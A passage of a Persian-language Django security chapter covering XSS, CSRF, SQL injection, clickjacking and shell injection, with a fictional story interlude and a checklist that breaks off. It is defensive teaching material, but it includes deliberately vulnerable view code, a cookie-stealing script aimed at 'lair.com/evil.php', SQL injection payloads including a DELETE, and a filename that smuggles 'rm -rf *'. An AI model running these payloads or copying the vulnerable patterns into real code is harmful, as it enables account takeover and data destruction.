


# امنیت
در این فصل ما در باره موضوعات زیر بحث میکنیم:

- انواع حملات وب و اقدامات متقابل
- کجا جنگو میتواند و کجا نمیتواند کمک کند
- بررسی های امنیتی برای برنامه های جنگو

گزارشات صنعتی متعددی نشان میدهد که وبسایت ها و برنامه های کاربردی یکی از اولین اهداف حملات سایبری هستند
با این حال، حدود 86 درصد از تمام وب‌سایت‌ها که توسط یک شرکت امنیتی پیشرو در سال 2013 آزمایش شدند، حداقل یک آسیب‌پذیری جدی داشتند.

(dos) انتشار برنامه مملو از خطرات متعددی است از افشای اطلاعات محرمانه تا حمله محروم سازی از سرویس
رسانه های جریان اصلی، نقص های امنیتی را با تمرکز بر سوء استفاده ها،
<span dir="rtl">مانند Heartbleed، Cloudbleed، Superfish و POODLE عنوان می کنند،</span>
، که تأثیر نامطلوبی بر برنامه های کاربردی وب سایت مهم، مانند ایمیل و بانکداری دارند.
<span dir="rtl">اغلب از خود می پرسند که آیا www اکنون به معنای وب جهانی است یا غرب وحشی وحشی.</span>

یکی از بزرگترین نقاط فروش جنگو تمرکز قوی آن بر امنیت است.
در این فصل، تکنیک‌های برتری را که مهاجمان استفاده می‌کنند، پوشش خواهیم داد.
همانطور که به زودی در این فصل خواهیم دید، جنگو می تواند از شما در برابر اکثر آنها محافظت کند.

من معتقدم که برای محافظت از سایت خود در برابر مهاجمان، باید مانند یک مهاجم فکر کنید.
بنابراین، بیایید خود را با حملات رایج آشنا کنیم.

### Cross-site scripting

**Cross-site scripting (XSS)**, امروزه رایج ترین نقص امنیتی برنامه های وب در نظر گرفته می شود
و مهاجم را قادر می سازد تا اسکریپت های مخرب خود (معمولاً جاوا اسکریپت) را در صفحات وب مشاهده شده توسط کاربران اجرا کند.
به طور معمول، سرور فریب داده می شود تا محتوای مخرب خود را همراه با محتوای قابل اعتماد ارائه دهد.

چگونه یک کد مخرب به سرور می رسد؟ وسیله رایج ورود
ورود اطلاعات خارجی به سرور به شرح زیر است:

- از فیلد ها
- URLs
- Redirects
  -Alnaytics اسکریپت های خارجی مثل تبلیغات و

از هیچ یک از اینها را نمی توان به طور کامل اجتناب کرد. مشکل واقعی زمانی است که از داده های خارجی استفاده می شود
بدون تایید یا پاکسازی (همانطور که در تصویر زیر نشان داده شده است)؛
هرگز به داده های بیرونی اعتماد نکنید:



به عنوان مثال، بیایید نگاهی به یک کد آسیب پذیر بیندازیم و اینکه چگونه می توان
یک حمله XSS را روی آن انجام داد. اکیداً توصیه می شود که از این کد به هیچ شکلی استفاده نکنید:

```python
class XSSDemoView(View):
    def get(self, request):
        # WARNING: This code is insecure and prone to XSS attacks
        # *** Do not use it!!! ***
        if 'q' in request.GET:
            return HttpResponse("Searched for: {}".format(
                request.GET['q']))

        else:
            return HttpResponse("""<form method="get">
        <input type="text" name="q" placeholder="Search" value="">
        <button type="submit">Go</button>
        </form>""")
```

<span dir="rtl">کد قبلی یک کلاس **View** است که در صورت دسترسی بدون هیچ پارامتر **GET**، فرم جستجو را نشان می دهد. </span>
اگر فرم جستجو ارسال شود، رشته **جستجو** را دقیقاً همانطور که کاربر در فرم وارد کرده است نشان می دهد.

اکنون، این نمای را در یک مرورگر دارای تاریخ باز کنید (مثلاً IE 8) و عبارت جستجوی زیر را در فرم وارد کنید و آن را ارسال کنید:

```js
<script>alert("pwned")</script>
```


<span dir="rtl">جای تعجب نیست که مرورگر یک جعبه هشدار با پیام شوم - pwned را نشان می دهد. </span>
<pre>
این حمله در مرورگرهای فعلی مانند آخرین کروم با شکست مواجه می‌شود، 
که پیام خطای زیر را در کنسول نشان می‌دهد: از اجرای اسکریپت جاوا اسکریپت خودداری کرد. 
. کد منبع اسکریپت در درخواست یافت شد.
</pre>

اگر نمی‌دانید که یک پیام هشدار ساده چه آسیبی می‌تواند داشته باشد، به یاد داشته باشید که
هر کد جاوا اسکریپت را می‌توان به همان شیوه اجرا کرد. در بدترین حالت، کوکی های
کاربر را می توان با وارد کردن عبارت جستجوی زیر به سایتی که توسط مهاجم کنترل می شود ارسال کرد:

```js
<script>
  var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);
</script>
```

پس از ارسال کوکی‌های شما، مهاجم ممکن است بتواند حمله جدی‌تری انجام دهد.

### چرا کوکی های شما ارزشمند است؟

شاید ارزش درک این را داشته باشد که چرا کوکی ها هدف چندین حمله هستند.
به زبان ساده، دسترسی به کوکی‌ها به مهاجمان اجازه می‌دهد که شما را جعل کنند و
حتی کنترل حساب وب شما را در دست بگیرند.

<span dir="rtl">برای درک دقیق این موضوع، باید مفهوم **sessions** را درک کنید.HTTP بدون تابعیت است </span>
<span dir="rtl">این بدان معناست که هر درخواست HTTP که سرور دریافت می‌کند مستقل است و به درخواست‌هایی که قبل از آن ارائه شده‌اند مربوط نمی‌شود. </span>
جنگو چه یک کاربر ناشناس یا یک کاربر تأیید شده باشد، با مدیریت جلسات، فعالیت های آنها را برای مدت زمان مشخصی پیگیری می کند.

یک جلسه شامل شناسه جلسه در انتهای کلاینت، یعنی مرورگر و یک شی دیکشنری مانند است که در انتهای سرور ذخیره می شود.
شناسه جلسه یک رشته تصادفی 32 نویسه ای است که به عنوان یک کوکی در مرورگر ذخیره می شود. هر بار که یک کاربر از
یک وب سایت درخواستی می کند، تمام کوکی های او، از جمله این شناسه جلسه، همراه با درخواست ارسال می شود.

<span dir="rtl">در انتهای سرور، جنگو یک ذخیره‌سازی جلسه دارد که این شناسه جلسه را به داده‌های جلسه نگاشت می‌کند. به 
طور پیش فرض، جنگو داده های جلسه را در جدول پایگاه داده **django_session** ذخیره می کند. </span>

هنگامی که کاربر با موفقیت وارد سیستم می شود، جلسه متوجه می شود که احراز هویت موفقیت آمیز بوده و
کاربر را پیگیری می کند. بنابراین، کوکی به یک تأیید هویت موقت کاربر برای تراکنش‌های بعدی تبدیل می‌شود.
<span dir="rtl">هر کسی که این کوکی را بدست آورد می تواند از این برنامه وب به عنوان آن کاربر استفاده کند که به آن Session Hijacking می گویند. </span>

### جچکو چگونه کمک میکند؟

شاید مشاهده کرده باشید که مثال من به دو دلیل روشی بسیار غیرمعمول برای
<span dir="rtl">پیاده سازی view در جنگو بود: از الگوها برای رندر استفاده نمی کرد و کلاس های فرم استفاده نمی شد. </span>
<span dir="rtl">هر دوی آنها اقدامات پیشگیری XSS را دارند. </span>
<span dir="rtl">
به‌طور پیش‌فرض، جنگو الگوهای فرار خودکار نویسه‌های ویژه HTML را ایجاد می‌کند.
بنابراین، اگر رشته جستجو را در قالب نمایش داده بودید، همه تگ ها با کد HTML بودند.
این کار تزریق اسکریپت‌ها را غیرممکن می‌کند، مگر اینکه صریحاً با علامت‌گذاری محتوا به‌عنوان امن، آنها را خاموش کنید.
</span>
<span dir="rtl">
استفاده از کلاس‌های فرم در جنگو برای اعتبارسنجی و سالم‌سازی ورودی نیز یک اقدام متقابل بسیار مؤثر است.
برای مثال، اگر برنامه شما به شناسه کارمند عددی نیاز دارد، از کلاس **IntegerField**
به جای کلاس **CharField** مجاز تر استفاده کنید.
</span>
<span dir="rtl">
در مثال ما، می‌توانیم از یک کلاس **RegexValidator** در فیلد عبارت جستجوی خود استفاده کنیم
تا کاربر را به کاراکترهای الفبایی محدود کنیم و اجازه دهیم نمادهای نقطه‌گذاری توسط
ماژول جستجوی شما شناسایی شوند. محدوده قابل قبول ورودی کاربر را تا حد امکان محدود کنید.
</span>
### جایی که جنگو ممکن است کمکی نکند

جنگو می تواند از طریق فرار خودکار در قالب ها از ۸۰ درصد حملات XSS جلوگیری کند. برای سناریوهای باقی مانده، باید مراقب باشید که وظایف زیر را انجام دهید:

- Quote all HTML attributes, for example, replace `<a href={{link}}>` with `<a href="{{link}}">`
- <span dir="rtl">فرار از داده های پویا در CSS یا جاوا اسکریپت با استفاده از روش های **سفارشی**</span>
- اعتبارسنجی همه URL ها، به ویژه در برابر پروتکل های ناامن مانند جاوا اسکریپت
- <span dir="rtl">اجتناب از XSS سمت کاربر (همچنین به عنوان XSS مبتنی بر DOM شناخته می شود)</span>
<span dir="rtl">
به عنوان یک قانون کلی در برابر XSS، من فیلتر در ورودی و معادل سازی خروجی(output escaping) را پیشنهاد می‌کنم.
اطمینان حاصل کنید که هر داده‌ای را که وارد می‌شود کاملاً اعتبارسنجی و پاکسازی (فیلتر) شده باشد و بلافاصله قبل از ارسال آن
به کاربر، آن‌ها را تبدیل (output escaping) می‌کنید—مخصوصاً، اگر نیاز به پشتیبانی از ورودی کاربر با قالب‌بندی HTML
مانند نظرات دارید، از Markdown استفاده کنید.
</span>
<pre>
فیلتر کردن ورودی ها و معادل سازی خروجی ها
</pre>

### جعل های درخواست بین سایتی(Cross-site request forgery)

**جعل های درخواست بین سایتی (CSRF)** حمله ای است که کاربر را فریب می دهد تا در حالی که از سایت دیگری بازدید می کند،
اقدامات ناخواسته ای را در یک وب سایت انجام دهد، جایی که قبلاً احراز هویت شده اند.
مثلاً در یک فرم، یک مهاجم می‌تواند یک تگ IMG یا IFRAME را در صفحه قرار دهد
که درخواستی را که به دقت طراحی شده است به سایت تأیید شده ارسال می‌کند.

به عنوان مثال، تصویر جعلی0\*0 زیر را می توان در یک کامنت جاسازی کرد:

```html

```
<span dir="rtl">
اگر قبلاً از برگه دیگری وارد SuperBook شده اید، و اگر
سایت اقدامات متقابل CSRF نداشته باشد، پیام بسیار شرم آور پست می شود.
به عبارت دیگر، CSRF به مهاجم اجازه می دهد تا با فرض هویت شما اقداماتی را انجام دهد.
</span>
### جنگو چگونه کمک میکند
<span dir="rtl">
حفاظت اولیه در برابر CSRF استفاده از HTTP **POST** یا **PUT** و **DELETE**، (در صورت پشتیبانی) برای هر
اقدامی است که دارای عوارض جانبی است. هر درخواست) GET یا( HEAD باید برای بازیابی اطلاعات استفاده شود، به عنوان
مثال، فقط خواندنی.
</span>
<span dir="rtl">
جنگو اقدامات متقابلی را علیه روش‌های **POST**، **PUT** یا **DELETE** با جاسازی یک توکن ارائه می‌کند.
شما باید قبلاً با **** ذکر شده در هر قالب فرم جنگو آشنا باشید.
این به یک مقدار تصادفی تبدیل می شود که باید هنگام ارسال فرم وجود داشته باشد.
</span>
روش کار به این صورت است که مهاجم نمی تواند توکن را در حین ایجاد درخواست در سایت تأیید شده شما حدس بزند
. از آنجایی که توکن اجباری است و باید با مقدار ارائه شده در حین پخش فرم مطابقت داشته باشد،
ارسال فرم با شکست مواجه می شود و حمله خنثی می شود.

### جایی که جنگو ممکن است کمکی نکند
<span dir="rtl">
برخی از افراد چک‌های CSRF را در view با دکوراتور @csrf_exempt خاموش می‌کنند،
مخصوصاً برای پست‌های فرم AJAX. این توصیه نمی شود
مگر اینکه خطرات امنیتی مربوطه را به دقت در نظر گرفته باشید.
</span  >
### تزریق SQL (SQL injection)
<span dir="rtl">
تزریق SQL دومین آسیب پذیری رایج برنامه های کاربردی وب پس از XSS است.
این حمله شامل وارد کردن کد SQL مخرب در یک کوئری است که در پایگاه داده اجرا می شود.
این می تواند منجر به سرقت داده ها، با ریختن محتوای پایگاه داده،
یا تخریب داده ها، مثلاً با استفاده از دستور **DROP TABLE** شود.
</span>
<span dir="rtl">
اگر با SQL آشنا هستید، می توانید کد زیر را درک کنید.
یک آدرس ایمیل را بر اساس **نام کاربری** داده شده جستجو می کند:
</span>
```python
name = request.GET['user']

sql = "SELECT email FROM users WHERE username = '{}';".format(name)
```
<span dir="rtl">
در نگاه اول، ممکن است به نظر برسد که فقط آدرس ایمیل مربوط به نام کاربری
** که به عنوان پارامتر **GET\*\* ذکر شده است، بازگردانده خواهد شد.
با این حال، تصور کنید اگر یک مهاجم 'OR'1'='1' را در قسمت فرم وارد کند،
کد SQL به شکل زیر خواهد بود:
</span>

```sql
SELECT email FROM users WHERE username = '' OR '1'='1';
```
<span dir="rtl">
از آنجایی که این بند **WHERE** همیشه درست خواهد بود،
ایمیل های همه کاربران برنامه شما برگردانده می شود.
این می تواند یک نشت جدی اطلاعات محرمانه باشد.
</span>
مجدداً، اگر مهاجم بخواهد، می تواند پرس و جوهای خطرناک تری مانند موارد زیر را اجرا کند:

```sql
SELECT email FROM users WHERE username = ''; DELETE FROM users WHERE '1'='1';
```

اکنون، تمام ورودی های کاربر از پایگاه داده شما پاک می شود!

### جنگو چگونه کمک میکند
<span dir="rtl">
اقدام متقابل در برابر تزریق SQL نسبتاً ساده است. از Django ORM به جای ساخت دستورات SQL به صورت مستقیم استفاده کنید.
مثال قبل باید به صورت زیر پیاده سازی شود
</span>
```python
User.objects.get(username=name).email
```
<span dir="rtl">
در اینجا، درایورهای پایگاه داده جنگو به طور خودکار از پارامترها فرار می کنند.
این اطمینان حاصل می کند که آنها به عنوان داده صرفاً در نظر گرفته می شوند و بنابراین بی ضرر هستند.
با این حال، همانطور که به زودی خواهیم دید، حتی ORM دارای چندین مشکل است.
</span>
### جایی که جنگو ممکن است کمکی نکند
<span dir="rtl">
مثلاً به دلیل محدودیت‌های ORM جنگو، ممکن است مواردی وجود داشته باشد که افراد نیاز به استفاده از SQL خام داشته باشند.
برای مثال با استافاده از متد **extra()** میتوانید از کد های sql خام استفاده کنید
ولی ابن کد sql در مقابل SQL injections مقاوم نیست
</span >
<span dir="rtl">
اگر از API سطح پایین ORM، مانند متد **execute()** استفاده می کنید، ممکن است
بخواهید به جای درون یابی رشته SQL، پارامترهای bind را ارسال کنید.
حتی در این صورت، اکیداً توصیه می‌شود که بررسی کنید که
که آیا هر شناسه به درستی حذف شده است یا خیر.
</span>
<span dir="rtl">
در نهایت، اگر از API پایگاه داده شخص ثالث مانند MongoDB استفاده می کنید،
باید به صورت دستی تزریق SQL را بررسی کنید. در حالت ایده‌آل،
شما می‌خواهید فقط از داده‌های کاملاً تمیز شده با چنین رابط‌هایی استفاده کنید.
</span>
### دزدی کلیک (Clickjacking)

**Clickjacking** وسیله ای برای گمراه کردن کاربر برای کلیک بر روی پیوند یا دکمه مخفی
در مرورگر زمانی که قصد کلیک روی چیز دیگری را دارد.
<span dir="rtl">
این معمولاً با استفاده از یک IFRAME نامرئی که حاوی وب سایت مورد نظر است، اجرا می شود
روی یک صفحه وب ساختگی (در اینجا نشان داده شده است) که کاربر احتمالاً روی آن کلیک می کند:
</span>


از آنجایی که دکمه عمل در قاب نامرئی دقیقاً در بالای دکمه در صفحه ساختگی تراز شده است،
کلیک کاربر به جای آن اقدامی را در وب سایت مورد نظر انجام می دهد.

### جنگو چگونه کمک میکند
<span dir="rtl">
جنگو با استفاده از میان افزارهایی (middleware)که می توانند با استفاده از
چندین دکوراتور به خوبی تنظیم شوند، از سایت شما در برابر کلیک جک محافظت می کند.
به طور پیش‌فرض، این میان‌افزار «django.middleware.clickjacking.XFrameOptionsMiddleware» در
**MIDDLEWARE_CLASSES** شما در فایل تنظیمات شما گنجانده می‌شود. با تنظیم هدر XFrame-Options
روی **SAMEORIGIN** برای هر **HttpResponse** خروجی کار می کند.
</span>
<span dir="rtl">
اکثر مرورگرهای مدرن هدر را تشخیص می دهند، به این معنی
که این صفحه نباید در یک قاب در دامنه های دیگر باشد. حفاظت را می توان
برای نماهای خاصی با استفاده از دکوراتورها، مانند `@xframe_options_deny` و
`@xframe_options_exempt` فعال و غیرفعال کرد.
</span>
### تزریق دستورات سیستم عامل (Shell injection)
<span dir="rtl">
همانطور که از نام آن پیداست، تزریق shell یا تزریق فرمان به مهاجم اجازه می دهد
تا کد مخرب را به shell سیستم مانند bash تزریق کند. حتی برنامه‌های کاربردی تحت وب
نیز از برنامه‌های خط فرمان برای راحتی و عملکردشان استفاده می‌کنند.
چنین فرآیندهایی معمولاً در یک shell اجرا می شوند.
</span>
به عنوان مثال، اگر می خواهید تمام جزئیات فایلی را که نام آن توسط کاربر داده شده است
را نشان دهید، یک پیاده سازی ساده به صورت زیر خواهد بود:

```python
os.system("ls -l {}".format(filename))
```
<span dir="rtl">
مهاجم می‌تواند نام فایل را به‌عنوان «manage.py» وارد کند. rm -rf \*`
و تمام فایل های دایرکتوری خود را حذف کنید. به طور کلی
استفاده از "os.system" توصیه نمی شود. ماژول subprocess جایگزین امن‌تری است (یا حتی بهتر است
، ، می‌توانید از «os.stat()» برای دریافت ویژگی‌های فایل استفاده کنید).
</span>
<span dir="rtl">
از آنجایی که یک shell آرگومان های خط فرمان و متغیرهای محیطی را تفسیر می کند،
تنظیم مقادیر مخرب در آنها می تواند به مهاجم اجازه دهد تا دستورات سیستم دلخواه را اجرا کند.
</span>
### جنگو چگونه کمک میکند
<span dir="rtl">
جنگو در درجه اول برای استقرار به WSGI وابسته است. از آنجایی که WSGI،
برخلاف CGI، بر روی متغیرهای محیطی (environment variables)بر اساس
خود چارچوب در پیکربندی پیش‌فرض خود در برابر تزریق فرمان خط آسیب‌پذیر نیست.
</span>
<span dir="rtl">
با این حال، اگر برنامه جنگو نیاز به اجرای سایر فایل های اجرایی داشته باشد،
باید مراقب اجرای آن به صورت محدود، یعنی با حداقل مجوزها باشد.
هر پارامتری که منشا خارجی دارد باید قبل از ارسال به چنین فایل های اجرایی آنیتیزه شود.
علاوه بر این، از call() از ماژول subprocess برای اجرای برنامه‌های خط
فرمان با پارامتر پیش‌فرض «shell=False» استفاده کنید تا اگر درون‌یابی فرمان خط لازم نباشد، آ
آرگومان‌ها را به‌طور ایمن مدیریت کنید.
</span>
### و حملات وب پایان ناپذیر هستند

صدها تکنیک حمله وجود دارد که ما در اینجا به آنها اشاره نکرده‌ایم،
، و با یافتن حملات جدید، فهرست هر روز بیشتر می‌شود.
مهم است که خود را از آنها آگاه کنیم.

وبلاگ رسمی جنگو (https://www.djangoproject.com/weblog/) مکانی عالی
برای اطلاع از آخرین اکسپلویت های کشف شده است. نگهبانان جنگو به طور فعال سعی می کنند
با انتشار نسخه های امنیتی آنها را حل کنند. به شدت توصیه می شود که آنها را در اسرع وقت
نصب کنید زیرا معمولاً نیاز به تغییر بسیار کمی در کد منبع شما دارند یا هیچ تغییری ندارند.

امنیت اپلیکیشن شما به اندازه ضعیف ترین لینک آن قوی است.
حتی اگر کد جنگو شما کاملاً ایمن باشد، لایه‌ها و مؤلفه‌های زیادی در پشته شما وجود دارد،
به غیر از عناصر انسانی، که می‌توان با تکنیک‌های مختلف مهندسی اجتماعی، مانند فیشینگ، آنها را فریب داد.

آسیب پذیری ها در یک منطقه، مانند سیستم عامل، پایگاه داده یا وب سرور
، می توانند برای دسترسی به سایر بخش های سیستم مورد سوء استفاده قرار گیرند.
از این رو، بهتر است به جای مشاهده جداگانه هر قسمت، یک دید کلی از پشته خود داشته باشید.

<pre>
    **اتاق امن**
به محض اینکه استیو از اتاق هیئت مدیره خارج شد، تلفن خود را بیرون آورد و 
یک ایمیل تک خطی واضح را به تیمش ارسال کرد: "این کار است!"

در 60 دقیقه اخر او توسط پرسش های جزعی رعیس درباره کوچک 
ترین نکات اجرای برنامه به چالش کشیده شد. 
خانم اُ، با ناراحتی استیو، در تمام مدت سکوت خود را حفظ کرد.
    
وارد کابینش شد و یک بار دیگر پرینت اسلایدهایش را باز کرد. پس از معرفی چک لیست ها، 
. پس از معرفی چک لیست ها، تعداد باگ های بی اهمیت به شدت کاهش یافت. ویژگی‌های اساسی که گنجاندن آنها 
در نسخه غیرممکن بود از طریق همکاری اولیه با سرورهای 
سرورهای مفیدی مانند Hexa و Aksel به کار گرفته شدند.

به لطف کمپین بازاریابی درخشان سو، تعداد ثبت نام‌ها برای سایت بتا از 9000 گذشت.  
استیو هرگز در دوران حرفه‌ای خود این همه علاقه برای راه اندازی ندیده بود
آن موقع بود که متوجه چیز عجیبی در مورد روزنامه روی میزش شد.
    
پانزده دقیقه بعد، او با عجله از راهرو در طبقه 21 پایین آمد. در انتهای آن، 
، دری با علامت 2109 وجود داشت. وقتی در را باز کرد، اوان را دید که
روی چیزی شبیه یک لپ‌تاپ اسباب‌بازی پلاستیکی سفید کار می‌کرد. 
استیو پرسید: "چرا سرنخ های جدول کلمات متقاطع را حلقه زدی؟
می توانستی با من تماس بگیری."    

    «او با پوزخند پاسخ داد: می خواهم چیزی به شما نشان دهم». لپ تاپش را گرفت و بیرون رفت.
    او بین اتاق 2110 و خروجی آتش متوقف شد. روی زانوهایش افتاد و با دست راست
    کاغذ دیواری رنگ و رو رفته را گرفت. او زمزمه کرد: "اینجا باید یک قفل وجود داشته باشد."
    
    
    سپس دستش ایستاد و دسته ای را که به سختی از دیوار بیرون زده بود چرخاند. 
    قسمتی از دیوار چرخید و متوقف شد. ورودی اتاقی را نشان داد که با چراغ قرمز 
    روشن شده بود. تابلویی در داخل که از پشت بام آویزان بود 
    روی آن نوشته شده بود: «اتاق امن »21B.
    
    وقتی وارد شدند، صفحات و چراغ‌های متعددی به خودی خود روشن شدند. 
    یک صفحه نمایش بزرگ روی دیوار نوشته بود "احراز هویت لازم است. کلید را وارد کنید." 
    ایوان برای مدت کوتاهی این را تحسین کرد و شروع به سیم کشی لپ تاپ خود کرد.
    
    ایوان، ما اینجا چه کار می کنیم؟" استیو با صدایی خاموش پرسید. 
    " ایوان ایستاد، "اوه، درست است. حدس می‌زنم تا پایان آزمایش‌ها کمی وقت داریم."
    او یک نفس عمیق کشید.
    
    "به یاد دارید زمانی که خانم O از من خواست به پایگاه کد سنتینل نگاه کنم؟ 
    من این کار را کردم. متوجه شدم که کد منبع سانسور شده به ما داده شده است. 
    منظورم این است که می توانم برخی از رمزهای عبور را اینجا و آنجا حذف کنم، 
    اما هزاران خط کد را درک کنم؟ مدام فکر می کردم - باید اتفاقی می افتاد."
    
    
    بنابراین، با دسترسی من به بایگانی، برخی از نسخه های پشتیبان قدیمی را برداشتم. 
    " احتمال پاک نشدن یک رسانه مغناطیسی به طرز شگفت آوری زیاد است. 
    به هر حال، من می توانم بیشتر کدهای پاک شده را بازیابی کنم. آنچه را دیدم باور نخواهید کرد. "
    
    
    Sentinel یک پروژه شبکه اجتماعی معمولی نبود. 
    این یک برنامه نظارتی بود. شاید بزرگترین شناخته شده برای بشر.
    
    پس از جنگ سرد، گروهی از کشورها برای ایجاد شبکه ای 
    برای اشتراک گذاری اطلاعات اطلاعاتی به یکدیگر پیوستند. شبکه ای از انسان ها
    و نگهبانان. انتینل ها کامپیوترهایی نیمه مستقل با قدرت محاسباتی باورنکردنی هستند.
    برخی معتقدند که آنها کامپیوترهای کوانتومی هستند.
    
    نگهبان‌ها در هزاران مکان استراتژیک در سراسر بسترهای اقیانوسی جهان 
    که کابل‌های اصلی فیبر نوری از آنجا عبور می‌کنند، قرار گرفتند.
    آنها با انرژی زمین گرمایی کار می‌کردند، و عملاً غیرقابل تخریب بودند. 
    آنها تقریباً به تمام ارتباطات اینترنتی در اکثر کشورها دسترسی داشتند.
    
    در مقطعی در دهه نود، شاید از ترس نظارت عمومی، برنامه سنتینل تعطیل شد. 
    اینجاست که واقعا جالب می شود. تاریخچه کد نشان می دهد که توسعه در Sentinels 
    توسط شخصی به نام Cerebos ادامه یافت. این کد به طرز چشمگیری از توانایی های نظارتی 
    خود برای ایجاد نوعی ابر رایانه موازی بسیار افزایش یافته است. یک جانور اعداد خرد کننده 
    که هیچ الگوریتم رمزگذاری برای او چالش مهمی ایجاد نمی کند.
    
    نقض را به یاد دارید؟ برای من سخت بود که باور کنم قبل از آمدن ابرقهرمانان 
    حتی یک حرکت تهاجمی وجود نداشت. بنابراین، من کمی تحقیق کردم. 
    امنیت سایبری SHIM به صورت پنج حلقه متحدالمرکز طراحی شده است. 
    ما، کارمندان، در بیرونی ترین، کم برخوردارترین حلقه ای هستیم که توسط سائورون 
    محافظت می شود. حلقه‌های داخلی با الگوریتم‌های رمزنگاری قوی‌تر طراحی می‌شوند. 
    این اتاق در طبقه 4 است.
    
    حدس من این است که مدت‌ها قبل از اینکه ما از این رخنه مطلع شویم، همه 
    سیستم‌های سائورون در معرض خطر قرار گرفته بودند. سیستم‌ها از کار افتاده بودند
    و ورود آن روبات‌ها به محوطه دانشگاه عملاً یک راهپیمایی بود. من فقط به سیاهه ها نگاه کردم. 
    این حمله بسیار هدفمند بود – همه چیز از آدرس های IP گرفته 
    تا ورود به سیستم از قبل شناخته شده بود.
    
    "داخلی?" استیو با وحشت پرسید.
    
    بله. با این حال، Sentinels فقط برای سطح 5 نیاز به کمک داشت. 
    " هنگامی که آنها کلیدهای عمومی برای سطح 4 را به دست آوردند،
    آنها شروع به حمله به سیستم های سطح 4 کردند. این دیوانه به نظر
    می رسد اما این استراتژی آنها بود."

    "چرا دیوانه است؟"
    
    "خب، بیشتر امنیت آنلاین جهان مبتنی بر رمزنگاری با کلید عمومی یا رمزنگاری
    نامتقارن است. این امنیت مبتنی بر دو کلید است: یکی عمومی و دیگری خصوصی. 
    اگرچه از نظر ریاضی مرتبط است، یافتن یک کلید در صورت داشتن
    این کلید از نظر محاسباتی غیرعملی است. دیگر"
    
    "آیا می گویید که شبکه سنتینل می تواند؟"
    
    "در واقع، آنها می توانند برای کلیدهای کوچکتر. بر اساس آزمایشاتی که در حال حاضر 
    انجام می دهم، قدرت آنها به طور قابل توجهی افزایش یافته است. 
    با این سرعت، آنها باید در کمتر از 24 ساعت برای حمله دیگری آماده شوند."
    
    "لعنتی، آن زمان است که SuperBook پخش می شود!"

</pre>

### یک چک لیست امنیتی مفید

امنیت یک فکر بعدی نیست، بلکه در نحوه نوشتن برنامه ها ضروری است.
با این حال، از آنجایی که انسان هستید، داشتن یک چک لیست برای یادآوری
موارد مشترک مفید است.

نکات زیر حداقلی از بررسی های امنیتی است که باید قبل از عمومی کردن برنامه جنگو خود انجام دهید:

- **به داده های یک مرورگر، API یا هر منبع خارجی اعتماد نکنید:**
  این یک قانون اساسی است. اطمینان حاصل کنید که هر گونه داده خارجی را تأیید و پاکسازی می کنید.
- **نگه ندارید** کلید خصوصی را **در کنترل نسخه:** به عنوان بهترین تمرین، انتخاب کنید **کلید خصوصی**
   پکیج `django-environ` را ببینید.
- **رمزهای عبور را در متن ساده ذخیره نکنید:** در عوض هش رمز عبور برنامه خود را ذخیره کنید. یک نمک تصادفی نیز اضافه کنید.
- **هیچ داده حساسی را ثبت نکنید:** اطلاعات محرمانه مانند جزئیات کارت اعتباری یا کلیدهای API را قبل از ثبت آنها در فایل های گزارش خود فیلتر کنید.

- **هر تراکنش امن یا ورود به سیستم باید از SSL استفاده کند:** آگاه باشید که استراق سمع کنندگان در
  همان شبکه ای که اگر در HTTPS نباشد، می توانید به ترافیک وب خود گوش دهید.
  در حالت ایده آل، شما باید از HTTPS برای کل سایت استفاده کنید.
- **از استفاده از تغییر مسیر به URL های ارائه شده توسط کاربر خودداری کنید:** اگر ریدایرکت هایی مانند
